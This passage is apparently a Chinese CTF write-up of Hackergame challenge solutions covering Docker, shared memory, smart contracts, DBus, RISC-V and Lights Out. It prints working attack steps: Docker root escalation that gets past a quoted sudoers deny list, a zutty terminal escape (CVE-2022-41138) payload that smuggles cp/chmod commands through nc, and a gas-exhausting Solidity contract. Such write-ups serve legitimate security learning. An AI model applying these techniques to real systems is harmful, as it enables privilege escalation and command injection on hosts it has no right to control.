docker image save a | gzip -9 | base64 > a.txt
docker image rm a
```

```sh
# 服务器上执行
base64 -d | sudo docker image load
# 粘贴上传
sudo docker run --rm -u 1000:1000 -itv /:/a a # 进入容器
busybox su # 进入容器内root shell
busybox chown 1000 /a/dev/vdb # /flag链接目标是./dev/vdb
exit # 退出容器内root shell
exit # 退出容器
cat /flag
```

### Unbreakable!

```
/usr/bin/docker run --rm --security-opt=no-new-privileges -u 1000:1000 *
/usr/bin/docker image load
!/usr/bin/docker * -u0*
!/usr/bin/docker * -u?0*
!/usr/bin/docker * --user?0*
!/usr/bin/docker * -ur*
!/usr/bin/docker * -u?r*
!/usr/bin/docker * --user?r*
!/usr/bin/docker * --privileged*
!/usr/bin/docker * --device*
```

`--security-opt=no-new-privileges`会导致容器内setuid失败，也就用不了su。但是，并没有说不能再次指定security-opt参数，用后面的参数覆盖前面的，就又能套用上一小题的做法了。

```sh
sudo docker run --rm --security-opt=no-new-privileges -u 1000:1000 \
  --security-opt="no-new-privileges=false" -itv /:/a a
```

<h2 title="看不见的彼方：交换空间">我确信，天空将你我相连</h2>

### 小菜一碟

如果直接交换的话，看起来可以用带RENAME\_EXCHANGE标志的renameat2，就不需要使用额外内存。但是，这需要在进程间交换目录描述符，pidfd\_getfd需要ptrace权限，而传统做法利用Unix域套接字SCM\_RIGHTS功能，步骤很繁琐，甚至有个库[libancillary](http://www.normalesup.org/~george/comp/libancillary/)专门封装了通过套接字传递文件描述符的操作。然而，要在进程间共享套接字，需要通过文件系统，绕了一圈又回到原点。还是研究一下怎么传数据吧。

两年前的题目官方用信号传递信息，但是每次只能发一点点数据，还需要同步机制，10秒限制内估计传不完。[Mufanc](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/players/Mufanc/README.md)、[monad](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/players/monad.md)等选手的解法用共享内存完成，现在还能继续用。

文件内容已经占去了128MB × 2，剩下的可用内存只剩60MB了。既然不能把文件整个读入，那就分块读写好了。我选择创建两个16MB的缓冲区，双方先读到自己的共享内存中，然后将对方缓冲区内容写入文件。使两个进程步调一致的方法是典中典`usleep(114514)`。

打印一下就知道环境内两个进程PID固定为14和15，所以可以非常偷懒地为双方套用同一个程序。

```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/shm.h>
#include <unistd.h>

int main() {
	int me = getpid();
	printf("我是小猫%d\n", me);
	char *self = shmat(shmget(me, 16 << 20, 0666 | IPC_CREAT), 0, 0);
	char *other = shmat(shmget(me ^ 1, 16 << 20, 0666 | IPC_CREAT), 0, 0);
	int fd = open("/space/file", O_RDWR); perror("open");
	for (int i = 0; i < 8; i++) {
		read(fd, self, 16 << 20); perror("read");
		usleep(114514);
		lseek(fd, -(16 << 20), SEEK_CUR); perror("lseek");
		write(fd, other, 16 << 20); perror("write");
		usleep(114514);
	}
	close(fd);
	sleep(1);
}
```

chroot环境里没有动态链接库，直接编译提交会报找不到文件的错，比较方便地能让C程序在家徒四壁的环境中正常运行的方法是使用`musl-gcc -static`编译。

### 捉襟见肘

试了一下，tmpfs支持稀疏文件：比如通过寻道创建一个很大的全零文件，并不会占用很大内存。但我没能成功利用这一点。

rm和rename都会报错，因为原有文件所有者为root。试了各种方法都没法真正降下内存，最后用了busybox的truncate和sync。思路还是一小块一小块地操作，先把B里两个小的的合成一个大的，然后套用上一小题的方法传输，最后把A里的大的拆成小的。合并和分割的时候，切出一块就把源文件末尾砍掉一块。

因为Unix编程基础很不牢，遇到一堆诸如刚发现open函数有第三个参数，之前创建的文件权限全是000之类的弱智问题，在这道题上浪费了很多时间。虽然确信思路是正确的，但奇奇怪怪的不稳定因素不少。自己用共享内存写了个很不安全的集合点（rendezvous）。拆分的时候因为内存被共享段占了导致子进程死亡，所以传输一完成就要释放掉共享内存。代码改了一下午，最后过的时候也不知道到底是什么情况，我已经复现不出来了，下面的程序仅供参考。

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/shm.h>
#include <unistd.h>

volatile int *s; // 集合点
void wait() {
	static int n = 0;
	for (++*s, n += 2; *s < n; );
}
int main() {
	s = shmat(shmget(114514, 8, 0666 | IPC_CREAT), 0, 0);
	int fd = open("/space/file", O_RDWR);
	int shma = shmget(114, 16 << 20, 0666 | IPC_CREAT);
	char *a = shmat(shma, 0, 0);
	int shmb = shmget(514, 16 << 20, 0666 | IPC_CREAT);
	char *b = shmat(shmb, 0, 0);
	shmctl(shma, IPC_RMID, NULL);
	shmctl(shmb, IPC_RMID, NULL);
	if (fd >= 0) {
		printf("我是A %d\n", fd);
        system("busybox touch /space/file /space/file1 /space/file2");

		wait();
		// 交换
		for (int i = 0; i < 8; i++) {
			read(fd, a, 16 << 20); perror("read");
			wait();
			lseek(fd, -(16 << 20), SEEK_CUR); perror("lseek");
			write(fd, b, 16 << 20); perror("write");
			wait();
		}
		fsync(fd);
		close(fd);
		shmdt(a);
		shmdt(b);
		wait();

		// 拆分
		system(
			"echo 拆分; cd /space; ls -lh\n"
			"busybox dd if=file of=file1 bs=16M count=1 skip=7 seek=0\n"
			"busybox truncate -s 112M file\n"
			"busybox sync -f file file1\n"
			"busybox dd if=file of=file1 bs=16M count=1 skip=6 seek=1\n"
			"busybox truncate -s 96M file\n"
			"busybox sync -f file file1\n"
			"busybox dd if=file of=file1 bs=16M count=1 skip=5 seek=2\n"
			"busybox truncate -s 80M file\n"
			"busybox sync -f file file1\n"
			"busybox dd if=file of=file1 bs=16M count=1 skip=4 seek=3\n"
			"busybox truncate -s 64M file\n"
			"busybox sync -f file file1\n"
			"busybox dd if=file of=file2 bs=16M count=1 skip=3 seek=0\n"
			"busybox truncate -s 48M file\n"
			"busybox sync -f file file2\n"
			"busybox dd if=file of=file2 bs=16M count=1 skip=2 seek=1\n"
			"busybox truncate -s 32M file\n"
			"busybox sync -f file file2\n"
			"busybox dd if=file of=file2 bs=16M count=1 skip=1 seek=2\n"
			"busybox truncate -s 16M file\n"
			"busybox sync -f file file2\n"
			"busybox dd if=file of=file2 bs=16M count=1 skip=0 seek=3\n"
			"busybox truncate -s 0M file\n"
			"busybox sync -f file file2\n"
			"ls -lh\n"
		);
	} else {
		printf("我是B\n");

		// 合并
		system(
			"echo 合并; cd /space; ls -lh\n"
			"busybox dd if=file2 of=file bs=16M count=1 skip=3 seek=0\n"
			"busybox truncate -s 48M file2\n"
			"busybox sync -f file file2\n"
			"busybox dd if=file2 of=file bs=16M count=1 skip=2 seek=1\n"
			"busybox truncate -s 32M file2\n"
			"busybox sync -f file file2\n"
			"busybox dd if=file2 of=file bs=16M count=1 skip=1 seek=2\n"
			"busybox truncate -s 16M file2\n"
			"busybox sync -f file file2\n"
			"busybox dd if=file2 of=file bs=16M count=1 skip=0 seek=3\n"
			"busybox truncate -s 0M file2\n"
			"busybox sync -f file file2\n"
			"busybox dd if=file1 of=file bs=16M count=1 skip=3 seek=4\n"
			"busybox truncate -s 48M file1\n"
			"busybox sync -f file file1\n"
			"busybox dd if=file1 of=file bs=16M count=1 skip=2 seek=5\n"
			"busybox truncate -s 32M file1\n"
			"busybox sync -f file file1\n"
			"busybox dd if=file1 of=file bs=16M count=1 skip=1 seek=6\n"
			"busybox truncate -s 16M file1\n"
			"busybox sync -f file file1\n"
			"busybox dd if=file1 of=file bs=16M count=1 skip=0 seek=7\n"
			"busybox truncate -s 0M file1\n"
			"busybox sync -f file file1\n"
			"ls -lh\n"
		);

		wait();
		// 交换
		fd = open("/space/file", O_RDWR);
		for (int i = 0; i < 8; i++) {
			read(fd, b, 16 << 20); perror("read");
			wait();
			lseek(fd, -(16 << 20), SEEK_CUR); perror("lseek");
			write(fd, a, 16 << 20); perror("write");
			wait();
		}
		fsync(fd);
		close(fd);
		shmdt(a);
		shmdt(b);
		wait();
	}
}
```

<h2 title="链上转账助手">你们怎么都会区块链啊</h2>

### 转账失败

去年读了往年的题解，还是毫无头绪。今年读了去年的题解，终于做出两小题。

不了解智能合约的选手，强烈推荐阅读[链上猎手（2023）官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E9%93%BE%E4%B8%8A%E7%8C%8E%E6%89%8B/README.md)中的基本概念，介绍得很清晰。[链上预言家（2021）](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E9%93%BE%E4%B8%8A%E9%A2%84%E8%A8%80%E5%AE%B6/README.md)和[链上记忆大师（2022）](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/official/%E9%93%BE%E4%B8%8A%E8%AE%B0%E5%BF%86%E5%A4%A7%E5%B8%88/README.md)的题解中提到在[Remix Ethereum IDE](https://remix.ethereum.org/)上编写Solidity程序完全不需要配环境，编译出的JSON元数据中包含可直接粘贴到判定程序的字节码。这个网站现在还配有AI，随时乐意给出对代码的狗屁不通的解释。

题目会部署一个题目合约和十个选手合约，然后调用题目合约的转账函数给每个选手合约转账1 ETH，要求让这个批量转账交易失败。

问AI怎么让目标不接受转账，感觉这AI好像说了什么又好像什么都没说，好像只要没有外部可支付（external payable）函数就可以了。那岂不是什么都不写就行？

我将这个什么都做不了的智能合约命名为——Read-only file system。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

contract ReadOnlyFileSystem {
}
```

### 转账又失败

call是编译到EVM CALL指令的底层函数，我在Solidity官方文档里找了好久才找到它，在[地址类型](https://docs.soliditylang.org/en/latest/types.html#address)里介绍的。好像在EVM里，调用其他合约时是直接指定地址后传一堆字节，函数名、参数如何编码之类的都是约定，而Solidity的函数则在此之上封装了一层，会自动匹配函数名和解析参数。如果被解析失败了，Solidity就会把原本传入的字节序列交给特殊的fallback函数。这里call的参数是空字节串，所以目标合约中被调用的一定是fallback函数。

call指令会返回调用时发生的错误。如果是Solidity封装的按名称调用合约函数的写法，且没有try ~ catch错误处理程序，会自动放弃执行下面的代码并将错误返回上层，而直接使用地址类型上的底层call函数就会将错误保存在返回值中。所以，在选手合约中发生的任何可捕获错误（例如合约不接受转账）都不会造成题目合约出错。

观察第二小题和第三小题代码之间的区别：

```diff
-            (bool success, ) = recipients[i].call{value: amounts[i]}("");
+            (bool success, ) = recipients[i].call{value: amounts[i], gas: 10000}("");
```

可见第三小题限制了每次调用只能使用10000 gas。那么第二小题的简单做法应该就是通过耗尽计算资源导致整个交易强制失败，因为整个交易的计算资源总量是有限的。

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

contract Spinner {
    fallback () external payable {
        for (;;) {}
    }
}
```

withdrawPending函数应该只是表示这个转账机器人不会吞钱，题目没有任何地方调用它，它也不是什么特殊函数，不会被系统自动调用。

### 转账再失败

注意到call会等待目标函数执行完毕，然后再继续执行。目标函数可以递归调用调用方，这是重入（reentrant）现象。如果状态管理不正确，可能导致细节问题，可以搜索the DAO被榨干的案例。

那么耗尽转账机器人的余额有用吗？并不行。根据[EVM指令码](https://www.evm.codes/)，如果调用方缺少资金，调用将失败，但不会回滚。

可能还是需要耗尽gas来导致交易失败，但这就是知识盲区了。

**赛后补**：上述分析是正确的，接下来也确实是知识盲区。

<h2 title="不太分布式的软总线">软 总 线</h2>

### What DBus Gonna Do?

教程题，介绍DBus的概念、资源定位方法，以及如何向服务发送消息、传递参数、接收返回值。

```sh
#!/bin/sh
dbus-send --system --print-reply \
	--dest=cn.edu.ustc.lug.hack.FlagService \
	/cn/edu/ustc/lug/hack/FlagService \
	cn.edu.ustc.lug.hack.FlagService.GetFlag1 \
	string:'Please give me flag1'
```

### If I Could Be A File Descriptor

dbus-send工具只能发简单类型的参数，真要发文件描述符还得用C。

> **User**: The following C program excerpt is from a system DBus service. Write another program to call the method with the required parameters, so that the method runs successfully.
> Hint: You can use a pipe for a file descriptor not on file system.
>
> ```c
> static void handle_method_call(GDBusConnection *connection, const gchar *sender,
>                                const gchar *object_path,
>                                const gchar *interface_name,
>                                const gchar *method_name, GVariant *parameters,
>                                GDBusMethodInvocation *invocation,
>                                gpointer user_data) {
>     if (!g_variant_is_of_type(parameters, G_VARIANT_TYPE("(h)"))) {
>       return respond_error_msg(invocation,
>                                "Give me a file descriptor, please.");
>     }
>     // ……中间原样复制题目代码……
>     if (g_strcmp0(buffer, "Please give me flag2\n") != 0) {
>       return respond_error_msg(
>           invocation,
>           "Please give me file descriptor with that message to get flag!");
>     } else {
>       return respond_success(invocation, flag2);
>     }
> }
> ```

这种纯纯API搬运工的题有什么意义吗（恼）交给GPT然后修修细节就完事了。

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <gio/gio.h>

#define PIPE_READ 0
#define PIPE_WRITE 1

int main(int argc, char *argv[]) {
	// Create a pipe
	int pipefd[2];
	if (pipe(pipefd) == -1) {
		perror("pipe");
		return EXIT_FAILURE;
	}

	// Write the required message to the pipe
	const char *message = "Please give me flag2\n";
	write(pipefd[PIPE_WRITE], message, strlen(message));
	close(pipefd[PIPE_WRITE]); // Close the write end after writing

	// Create a GDBusConnection
	GError *error = NULL;
	GDBusConnection *connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
	if (error) {
		g_printerr("Error connecting to D-Bus: %s\n", error->message);
		g_error_free(error);
		return EXIT_FAILURE;
	}

	// Create a GUnixFDList to hold the file descriptor
	GUnixFDList *fd_list = g_unix_fd_list_new();
	g_unix_fd_list_append(fd_list, pipefd[PIPE_READ], NULL); // Add the read end of the pipe

	// Create the parameters for the method call
	GVariant *params = g_variant_new("(h)", 0); // Use index 0 for the first file descriptor

	// Call the method
	GDBusProxy *proxy = g_dbus_proxy_new_sync(
		connection,
		G_DBUS_PROXY_FLAGS_NONE,
		NULL, // info
		"cn.edu.ustc.lug.hack.FlagService", // Service name
		"/cn/edu/ustc/lug/hack/FlagService", // Object path
		"cn.edu.ustc.lug.hack.FlagService", // Interface name
		NULL, // Error
		&error
	);

	if (error) {
		g_printerr("Error creating proxy: %s\n", error->message);
		g_error_free(error);
		return EXIT_FAILURE;
	}

	// Invoke the method
	GVariant *response = g_dbus_proxy_call_with_unix_fd_list_sync(
		proxy,
		"GetFlag2", // Method name
		params,
		G_DBUS_CALL_FLAGS_NONE,
		-1, // No timeout
		fd_list,
		NULL,
		NULL,
		&error
	);

	if (error) {
		g_printerr("Error calling method: %s\n", error->message);
		g_error_free(error);
	} else {
		// Print the response
		const gchar *response_str;
		g_variant_get(response, "(s)", &response_str); // Assuming the response is a string
		printf("Response: %s\n", response_str);
		g_variant_unref(response); // Unref the response when done
	}

	// Clean up
	g_object_unref(proxy);
	g_object_unref(fd_list);
	g_object_unref(connection);

	return EXIT_SUCCESS;
}
```

这题的环境还比较正常，直接抄Makefile里的编译命令产生的二进制文件就能在服务器上运行。

### Comm Say Maybe

把dbus-send换个名字拷到临时目录里就成了，我都不知道这是在防什么……

```sh
#!/bin/sh
cp `which dbus-send` /dev/shm/getflag3
/dev/shm/getflag3 --system --print-reply \
	--dest=cn.edu.ustc.lug.hack.FlagService \
	/cn/edu/ustc/lug/hack/FlagService \
	cn.edu.ustc.lug.hack.FlagService.GetFlag3
```

<h2 title="RISC-V：虎胆龙威">玩指令集原神玩的</h2>

在发行版原神上装环境：

```sh
sudo pacman -S iverilog riscv64-elf-binutils
```

### 警告：易碎 / Fragility

循环被ban了，因为第二回执行的时候循环体都没了，那么把循环展开就好了，4KB完全写得下全部指令。内存也废了，那就用寄存器。x0是只读寄存器，下面代码中用的是x16 ~ x31。足足31个32位通用寄存器啊，x86上想都不敢想的。

```python
print(f"la x1, 0xf80")
for i in range(16):
    print(f"lw x{i+16}, (x1)")
    print(f"addi x1, x1, 4")
for i in range(15):
    for j in range(15 - i):
        print(f"bltu x{j+16}, x{j+17}, _noxchg_{i}_{j}")
        print(f"mv x4, x{j+16}")
        print(f"mv x{j+16}, x{j+17}")
        print(f"mv x{j+17}, x4")
        print(f"_noxchg_{i}_{j}:")
for i in range(16):
    if i:
        print(f"addi x1, x1, 4")
    print(f"sw x{i+16}, (x1)")
print("_end: j _end")
```

### 四分之三 / Three of the Four

指令的16 ~ 23位被清零，这个字节影响的是两个源寄存器（参照The RISC-V Instruction Set Manual Volume I: Unprivileged Architecture，§2.2. Base Instruction Formats。Google可能会搜到LaTeX排版的老版本文档，图不按比例，画得跟屎一样），导致源寄存器1只能从x0和x1中选，源寄存器2只能从x0和x16中选（注意x0是常量零寄存器！），12位立即数的低4位也只能为零。跳转地址偏移量的编码方式和20位立即数不太一样，但都导致这类长数据不能包含负数。

用12位偏移量似乎可以表示整个内存地址空间，例如`sw x16, -0x40(x0)`会写入到内存地址0xFC0，但实际并不可行，因为内存设备判断地址在0xFFFF以下才会写入，而负偏移量会符号扩展到32位。这破玩意居然还有MMIO，往地址0x10000000写数据还会输出。

寄存器捉襟见肘，很难想象这种情况下还能写出计数循环，但如第二小题那样完全展开的话，指令数量又太多了。注意到题目判定很慢的原因是无论CPU在做什么都固定执行一百万个时钟周期，并没有程序正常退出这一说法，给出的示例程序也是执行完成后主动陷入死循环。既然如此，那么可以将冒泡排序的外层循环改为无限循环，再把内层循环展开，这样就能在不彻底展开两层循环的情况下消除计数比较的步骤了。无条件跳转指令因为偏移量不能为负而不能回头，但这可以用`beq x0, x0`解决。估算一下，展开的每轮循环大约有几十条指令的配额，应该绰绰有余了。

能用且实用的存取指令只有下面几种，其中偏移量在[−0x800, 0x7FF]的范围内。

```
lw x1/x16, 低4位为零的偏移(x0)
lw x1/x16, 低4位为零的偏移(x1)
sw x16, 任意偏移(x0)
sw x16, 任意偏移(x1)
```

怎么指定地址呢？因为没法用x0加偏移量指定0x7FF之上的位置，所以只能动态算出。但是，立即数低4位被清零，无法指定精细的地址，也只能通过指令算出。我找到的方法是利用`sltiu`指令比较x0和非零立即数，这样能设置目标寄存器值为常量1，然后执行四次加法就能+4了。

唯一能比较两个变量的寄存器组合是`bltu x1, x16`，所以主循环中必须先将相邻两个数据读入x1和x16。这里如果就地构造地址，考虑到后续交换还要再次构造地址，估摸着会使程序超长。解决办法是先把在初始化复制的时候构造出来的地址存到方便读取的内存中，要用哪个就读哪个。

```python
addr = [f"{i * 0x10:#x}(x0)" for i in range(16)]

# 复制0xf80 ~ 0xfbf的数据到0xfc0 ~ 0xfff
# x1 = 0xfc0
print("lui x1, 0")
print("addi x1, x1, 0x7e0")
print("addi x1, x1, 0x7e0")
for i in range(16):
    if i:
        print("sltiu x16, x0, 0x10") # x16 = 1
        # x1 += 4
        for _ in range(4):
            print("add x1, x1, x16")
    # 复制一个字
    print("lw x16, -0x40(x1)")
    print("sw x16, (x1)")
    # 在内存中保存这个地址备用
    print("mv x16, x1")
    print(f"sw x16, {addr[i]}")

print("big_loop:")
for i in range(15):
    # x1 = a[i]; x16 = a[i + 1]
    print(f"lw x1, {addr[i + 1]}")
    print("lw x16, (x1)")
    print(f"lw x1, {addr[i]}")
    print("lw x1, (x1)")
    # 已有序则跳过交换
    print(f"bltu x1, x16, _noxchg{i}")
    # 用0x700作为临时变量存下原a[i + 1]
    print("sw x16, 0x700(x0)")
    # 将原a[i]存到a[i + 1]
    print("mv x16, x1")
    print(f"lw x1, {addr[i + 1]}")
    print("sw x16, (x1)")
    # 将原a[i + 1]存到a[i]
    print("lw x16, 0x700(x0)")
    print(f"lw x1, {addr[i]}")
    print("sw x16, (x1)")
    print(f"_noxchg{i}:")
print("beq x0, x0, big_loop")
```

### 线程故障 / Fault in the Hart

如果新产品的固件不能正确运行的话……わたし……

沿用四分之三的程序结构很有用，因为本小题和它类似，同样难以完成计数循环。问题在于，只剩加法不止传统意义上的ALU受限。因为没有状态字，PicoRV32中条件判断也在ALU里，ALU坏了的话一切条件判断都会变成计算两数之和的奇偶性。所幸内存读写等其他功能指令基本正常，加载32位立即数因为原本就是加法所以也没问题。

在不能直接比较两数大小的情况下实现排序的一种思路是实现min和max，另一种是迂回实现比较。min可以用加减法、绝对值、移位部分实现（min(x, y) = (x + y − |x − y|) / 2），但有溢出问题，减法和移位也都没有着落。况且比较指令的本质就是减法，如果实现了减法，就离比较不远了。

内存读写正常的话，内存有用吗？可以通过间接寻址查找表实现一些函数。因为没有移位，但可以用`lb`和`lbu`指令逐字节读取内存，所以表索引的最小单位是字节。直接用256 × 256字节的查找表实现减法是不可能了，但可以用256字节的查找表实现取反，加上加法就可以实现取负，一个字节一个字节加就能拿到进位，而这时的进位就是比较用的标志位。

```python
# 复制0xf80 ~ 0xfbf的数据到0xfc0 ~ 0xfff
print("la x1, 0xfc0")
for i in range(16):
    if i:
        print("addi x1, x1, 4")
    # 复制一个字
    print("lw x16, -0x40(x1)")
    print("sw x16, (x1)")

# 生成取反函数表
print("la x1, 0")
print("la x2, 0xfcfdfeff")
print("la x3, -0x04040404")
for i in range(64):
    # 一次生成并写入4字节
    if i:
        print("add x1, x1, 4")
        print("add x2, x2, x3")
    print("sw x2, (x1)")

print("big_loop:")
# x1 = 0xfc0; x2 = 0xfc4
print("la x1, 0xfc0")
print("addi x2, x1, 4")
for i in range(15):
    # 调用sb
    print("jal x18, sb")
    # 此beq实为badd
    print(f"beq x3, x0, _noxchg{i}")
    print("lw x3, -4(x1)")
    print("lw x4, -4(x2)")
    print("sw x3, -4(x2)")
    print("sw x4, -4(x1)")
    print(f"_noxchg{i}:")
print("j big_loop")

# 函数名sb是减法的缩写
# x3 = (x1) < (x2); x1 += 4; x2 += 4
print("sb:")
print("la x3, 1")  # 负数初始进位
for i in range(4):
    # 字节x5 = ~(x1)
    print("lbu x5, (x1)")
    print("lbu x5, (x5)")
    # x5 += (x2)
    print("lbu x6, (x2)")
    print("add x5, x5, x6")
    # x5 += x3
    print("add x5, x5, x3")
    # x3 = x5第8位进位
    print("sw x5, 0x700(x0)")
    print("lbu x3, 0x701(x0)")
    # x1++; x2++
    print("addi x1, x1, 1")
    print("addi x2, x2, 1")
print("jalr x0, (x18)")  # 返回
```

**赛后补**：我完全没有发现`bnez`和移位都可用，题目的限制还能进一步加强<s>，下次还填非常简单</s>。查找表不需要动态生成，填在固件里也可以。

<h2 title="动画分享">玩语言原神玩的</h2>

### 只要不停下HTTP服务，响应就会不断延伸

Dockerfile略长，直接试了下`kill -9 23`发现没权限，原来我是nobody。

试了下问GPT也没说出这段Rust代码有什么安全问题。导致Rust panic的典中典问题：无效UTF-8、索引越界、unwrap，这里都没有。

**赛后补**：看到其他选手的做法，可以panic，中文文件名导致切片切出半个字符就会产生无效UTF-8。为啥我的GPT注意力就不够呢。

看来问题出在终端上。搜了一下zutty 0.12 security，找到一个[CVE-2022-41138](https://bugs.gentoo.org/868495)，甚至好心附上了PoC。原理是在输出的某些非法控制字符之间的内容会被当做输入处理，所以如果输出后底下是shell的话就会造成脚本执行。

服务器程序中可控的输出只有唯一的println!，向服务器发送的内容的第一行会被打印到终端。现在服务器进程占着输入，造成不了远程代码执行，但发个`^C`（按A1Z26编码为`\3`）就能干掉服务器了。

```sh
#!/bin/sh
echo $'\eP$q\3\e\\' | nc 127.0.0.1 8000
```

### 希望的终端模拟器，连接着我们的羁绊

干掉服务器后再输入命令的话似乎可以做到一些事情，chroot也只限制了服务器进程，根本就是假防护。但问题是只能输出一行，那也就只能输入一行。注意到Rust中String的[lines方法](https://doc.rust-lang.org/std/string/struct.String.html#method.lines)以`\n`或`\r\n`为分隔符，单独一个`\r`是可用的，对于终端来说这也是回车。借助希望的终端模拟器`chmod 777 /flag2`，然后就能`cat /flag2`了——吗？

命令执行似乎并没有起作用！

首先，`\r`确实能在bash中起到回车执行命令的作用，这点可以在本地任意终端模拟器中按下Ctrl+M验证。Ctrl+C也确实能连带chroot一起关闭。

我猜测可能是权限问题什么的，但也没法验证。尝试提交一个fork炸弹把内存占满，但这服务器上连free命令都没有，不知道到底生效了没。哦，还有PID数量限制，fork炸弹生效不了。又尝试提交了一个塞满硬盘的dd命令，但也没啥反应。如果chroot真的还在（为啥啊？），可能从外面看不到文件，但df显示的磁盘使用率应该有变化才对，可是也没有。于是开始怀疑提交的命令并没有真的被执行。

本地建个环境调试一下吧。我本地的Python已经升级到3.12了，导致需要标准库中已废弃的imp包的waf编译脚本无法使用。Arch Linux软件源里有新版本的zutty，先安装它，依赖就能被满足，然后就可以手动编译。

```sh
g++ src/*.cc $(pkg-config --cflags --libs freetype2 xmu) \
	-lGL -lEGL -pthread '-DZUTTY_VERSION="114514"'
```

在这个终端里运行文件服务器，确实能成功执行命令。真是奇了怪了。

这时，我突然想到一群得了一看到read-only file system就会死的病的群友。

把/flag2复制到/tmp，然后添加权限，成功了。

```sh
#!/bin/sh
echo $'\eP$q\3\rcp /flag2 /tmp; chmod 777 /tmp/flag2\r\e\\' | nc 127.0.0.1 8000
sleep 1
cat /tmp/flag2
```

唉，沟槽的想看到都看不到的read-only file system（这条消息在不可见的终端画面里）。我也死了。

<h2 title="关灯">那家伙竟然敢无视灯</h2>

### Easy ~ Hard

关灯问题的标准解法是化成模2意义下的线性方程组，要对<var>n</var><sup>3</sup> × <var>n</var><sup>3</sup>的矩阵求解，复杂度O(<var>n</var><sup>9</sup>)，太炸裂了。

```wolfram
convertSwitchArrayToLightsArray[switchArray_] :=
 Module[{lightsArray = switchArray},
  lightsArray[[1 ;; -2, All, All]] =
   BitXor[lightsArray[[1 ;; -2, All, All]],
    switchArray[[2 ;; -1, All, All]]];
  lightsArray[[2 ;; -1, All, All]] =
   BitXor[lightsArray[[2 ;; -1, All, All]],
    switchArray[[1 ;; -2, All, All]]];
  lightsArray[[All, 1 ;; -2, All]] =
   BitXor[lightsArray[[All, 1 ;; -2, All]],
    switchArray[[All, 2 ;; -1, All]]];
  lightsArray[[All, 2 ;; -1, All]] =
   BitXor[lightsArray[[All, 2 ;; -1, All]],
    switchArray[[All, 1 ;; -2, All]]];
  lightsArray[[All, All, 1 ;; -2]] =
   BitXor[lightsArray[[All, All, 1 ;; -2]],
    switchArray[[All, All, 2 ;; -1]]];
  lightsArray[[All, All, 2 ;; -1]] =
   BitXor[lightsArray[[All, All, 2 ;; -1]],
    switchArray[[All, All, 1 ;; -2]]]; lightsArray];
FromCharacterCode[48 + LinearSolve[
   Module[{n = 11}, Flatten[convertSwitchArrayToLightsArray[
        ArrayReshape[#, {n, n, n}]]] & /@ IdentityMatrix[n^3]],
   BitAnd[ToCharacterCode["1010…"], 1], Modulus -> 2]]
```

注意需要使用LinearSolve而不是Inverse再矩阵相乘，因为系数矩阵在<var>n</var> = 7和11的时候是不可逆的。

### Impossible

想了好几天，别提求逆和乘法，149<sup>3</sup> × 149<sup>3</sup>的(0, 1)矩阵光存下来就要几TB。仔细看题目代码，也没找到什么可利用的漏洞。真有这么高效的算法吗？该不会是什么有限域上的FFT，乘法做卷积，除法求出逆……但即使果真如此，我也不知道怎么处理边界。又或者，149是什么特殊的数字吗？在Mathematics Stack Exchange上、arXiv上、OEIS上找，也没找到什么既看得懂又有用的信息。我的脑海中甚至闪过了一丝用Z3暴力解的念头。呐，你相信奇迹吗？

看到群里提起“稀\*\*\*”，方才恍然大悟：用稀疏矩阵存系数就不需要那么大容量了。

```wolfram
coefficients[n_] := SparseArray[{
  {i_, i_} -> 1,
  {i_, j_} /;
     j == i - 1 && Mod[i, n] != 1 || j == i + 1 && Mod[i, n] != 0 || 
      j == i - n && Mod[i - 1, n^2] >= n || 
      j == i + n && Mod[i - 1, n^2] < n (n - 1) || 
      Abs[i - j] == n^2 -> 1}, {n^3, n^3}]
```

但是还是卡死了，不行啊SparseArray。

不过这个稀疏矩阵有一些特殊的性质：每行的非零元素至多7个，是分块对角矩阵，主对角线全为1云云。或许在这个矩阵上手工实现高斯消元会有什么意想不到的结果。

首先化成行阶梯形矩阵。注意到从第<var>n</var><sup>2</sup>行（索引从0计数）开始直到末行的部分已经是上三角形式，可以把这些行移到上面。然后用这<var>n</var><sup>2</sup> − <var>n</var>行消剩下<var>n</var>行（即初状态的前<var>n</var>行）的元。

这时我意识到，这种矩阵操作其实就是先从底部开始，按上一层的开关去关下一层的灯，把所有亮着的灯集中到立方体的顶层。对于顶层的每一盏灯，通过继续解上述巨型方程组，能得到“按立方体中的哪些开关能控制这盏灯”。通过查<var>n</var><sup>2</sup>次<var>n</var><sup>2</sup> × <var>n</var><sup>3</sup>的表就能求解任意顶层排布。这样的话，如果提前备好查找表，求解复杂度是O(<var>n</var><sup>5</sup>)，优化一下勉强可以在10秒内完成。但是，查找表将占用8GB，计算查找表需要非常长的时间。想到这里，距离比赛结束已不到20小时，肯定做不完了。

在一些机缘巧合下，通过Google搜索lights out CRC搜到了文章[Two Reflected Analyses of Lights Out](https://people.sc.fsu.edu/~jburkardt/classes/imps_2017/11_28/2691099.pdf)。这篇文章通篇没有提到CRC，它出现在搜索结果里的唯一原因是同期杂志上一篇文章的尾页参考文献中有一本书是CRC Press（就是出版CRC Standard Mathematical Tables的那家）出版的。

这篇文章用我很喜欢的双栏对照的方式从两种角度研究原版关灯问题，其中指出：按首行的一个开关，然后把亮着的灯集中（gather）到末行，就能控制末行的某些灯翻转。所以先把亮着的灯集中到末行后，解法只需要知道要按首行的哪些开关，随后再次集中到末行，就能关掉全部灯。这说明查找表不需要<var>n</var><sup>5</sup>，只需要<var>n</var><sup>4</sup>保存顶层每盏灯对应的底层开关排布就足够了。这个表大约60MB，确实已经到了“一般的笔记本电脑都是可以完成任务的”的程度。

最终需要在10秒内完成的求解步骤是：

1. 把亮着的灯集中到顶层。（O(<var>n</var><sup>3</sup>)）
2. 对于顶层的每个灯，按下能将其关闭的底层的一些开关，具体按哪些开关通过查表得到。（O(<var>n</var><sup>4</sup>)）
3. 再次把亮着的灯集中到顶层。（O(<var>n</var><sup>3</sup>)）

